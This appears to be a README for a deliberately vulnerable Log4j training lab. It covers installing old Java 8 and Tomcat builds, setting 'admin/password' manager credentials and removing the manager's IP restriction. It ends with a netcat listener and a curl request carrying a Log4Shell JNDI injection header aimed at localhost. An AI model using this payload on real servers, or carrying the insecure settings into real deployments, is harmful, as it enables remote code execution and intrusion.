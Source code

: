 # basic-vulnerable-log4j

## Setup of Vulnerable Java 8
To acquire older java versions you can go to: https://repo.huaweicloud.com/java/jdk/
This gives a directory listing titled "Index of java-local/jdk"
From here, we pick any version that we require. In our case we will go with 8u181-b13
As we are installing on Ubuntu, we pick linux-x64.tar.gz. To extract:
`tar -xf jdk-8u181-linux-x64.tar.gz`

`sudo mkdir /opt/jdk`
`sudo mv jdk1.8.0_181/ /opt/jdk`

Create symbolic links in /usr/bin for java and javac that point to /opt/jdk/jdk1.8.0_181/bin/java and /opt/jdk/jdk1.8.0_181/bin/javac

`update-alternatives --install /usr/bin/java java /opt/jdk/jdk1.8.0_181/bin/java 100`

`update-alternatives --install /usr/bin/javac javac /opt/jdk/jdk1.8.0_181/bin/javac 100`

verify:
`java -version`
`javac -version`

We want to set JAVA_HOME environment variable for all users:
`sudo touch /etc/profile.d/java-home.sh`
`sudo echo "export JAVA_HOME=/opt/jdk/jdk1.8.0_181/" >> /etc/profile.d/java-home.sh`
`source /etc/profile.d/java-home.sh`

## Setting up tomcat to deploy application
`sudo groupadd tomcat`
`sudo useradd -s /bin/bash -g tomcat -d /opt/tomcat tomcat`

To find vulnerable version of Tomcat:
Go to https://archive.apache.org/dist/tomcat/tomcat-9/
We are going to download 9.0.0.M1, we go to bin and copy the tar.gz link for that
`sudo mkdir /opt/tomcat`
`sudo tar xzvf apache-tomcat-*tar.gz -C /opt/tomcat --strip-components=1`
Giving group ownership to tomcat of /opt/tomcat
`sudo chgrp -R tomcat /opt/tomcat`
give the tomcat group read access to the conf directory and all of its contents, and execute access to the directory itself:
`sudo chmod -R g+r conf`
`sudo chmod g+x conf`

Make the tomcat user the owner of the webapps, work, temp, and logs directories:
`sudo chown -R tomcat webapps/ work/ temp/ logs/`
Create and edit:
`sudo nano /etc/systemd/system/tomcat.service`

```
[Unit]
Description=Apache Tomcat Web Application Container
After=network.target

[Service]
Type=forking

Environment=JAVA_HOME=/opt/jdk/jdk1.8.0_181
Environment=CATALINA_PID=/opt/tomcat/temp/tomcat.pid
Environment=CATALINA_HOME=/opt/tomcat
Environment=CATALINA_BASE=/opt/tomcat
Environment='CATALINA_OPTS=-Xms512M -Xmx1024M -server -XX:+UseParallelGC'
Environment='JAVA_OPTS=-Djava.awt.headless=true -Djava.security.egd=file:/dev/./urandom'

ExecStart="/opt/tomcat/bin/startup.sh"
ExecStop="/opt/tomcat/bin/shutdown.sh"

User=tomcat
Group=tomcat
UMask=0007
RestartSec=10
Restart=always

[Install]
WantedBy=multi-user.target
```
`sudo systemctl daemon-reload`
`sudo systemctl enable --now tomcat`

Configure Tomcat Web Management Interface
`sudo nano /opt/tomcat/conf/tomcat-users.xml`
add a user who can access the manager-gui and admin-gui (web apps that come with Tomcat).
```
<tomcat-users . . .>
    <user username="admin" password="password" roles="manager-gui,admin-gui"/>
</tomcat-users>
```
Newer versions of tomcat restrict access to manager and host manager apps to connections from server itself.
To change IP restrictions to allow remote access:

In Manager App, modify:
`sudo nano /opt/tomcat/webapps/manager/META-INF/context.xml`

Host Manager app, modify:
`sudo nano /opt/tomcat/webapps/host-manager/META-INF/context.xml`
Comment entry
```
<Context antiResourceLocking="false" privileged="true" >
  <!--<Valve className="org.apache.catalina.valves.RemoteAddrValve"
         allow="127\.\d+\.\d+\.\d+|::1|0:0:0:0:0:0:0:1" />-->
</Context>
```

Web Application Manager: http://127.0.0.1:8080/manager/html
Tomcat Virtual Host Manager: http:/127.0.0.1:8080/host-manager/html


exploit test:
`nc -lvnp 9999`

```
curl --location 'http://localhost:8080/heroes' \
--header 'X-Api-Version: ${jndi:ldap://127.0.0.1:9999}'
```

## Exploitation:
